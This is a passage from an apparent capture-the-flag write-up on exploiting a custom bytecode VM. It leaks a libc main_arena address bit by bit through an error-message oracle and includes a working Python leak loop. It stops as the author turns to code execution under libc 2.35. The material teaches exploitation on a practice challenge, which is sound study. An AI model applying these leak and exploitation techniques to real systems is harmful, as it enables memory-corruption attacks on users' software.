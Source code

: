 ![what_reverse](./pics/what_reverse.png)

we can abuse this to leak a value, for example:

we logical `AND` this value with the bit we want to leak, and if it result zero we can jump to exit, then we put an unknow opcode after the conditionnal jump that will be executed if the jump does not occurs, and will print the "what???" string..

Like this we can leak bits value one by one..

**so what to leak ???**

well, if we do two rounds with correct sizes (0x800 for data mem) ,  libc will leave us a `main_arena` address on data memory first address...

so we just have to leak this `main_arena` address with our method above...

here is the python code for the leak:

```python
# leak libc value bit by bit (we assume that firt 5 bits are zeroes (which is the case for main_arena address)
for i in range(5,40,1):
  print('leaking bit '+str(i))
  code = b'\x16\x00'+p64(0)     # load data mem offset 0 to r0 (will contain a main_arena value on second round)
  code += b'\x00\x00'   # push r0
  code += b'\x14\x01'+p64(1<<i)         # load bit maks in r1
  code += b'\x00\x01'   # push r1
  code += b'\x09'                       # logical AND on two stacks value, they will be poped and result put instead
  code += b'\x10'+p64(1)                # jump to offset +1 (pass over bad instruction) if result is 0
  code += b'\x18\x17'                   # one bad instruction \x18  and exit instruction \x17
  sla('code size:\n', str(len(code)) )
  sla('memory count:', '256')
  sla('code:', code)
  buff = p.recvuntil('finish', drop=True)
  print(buff.strip())
  if b'what' in buff:
    leak |= (1<<i)
# we assume upper bits are 0x7f
leak |= 0x7f0000000000
```



**How to get code execution???**

the challenge is using libc-2.35 (2.35-0ubuntu3.1 , from ubuntu 22.04)

it's not as easy than older libc versions to get code execution, because classical hooks (`_free_hook`, `_malloc_hook`, etc...) have been removed...
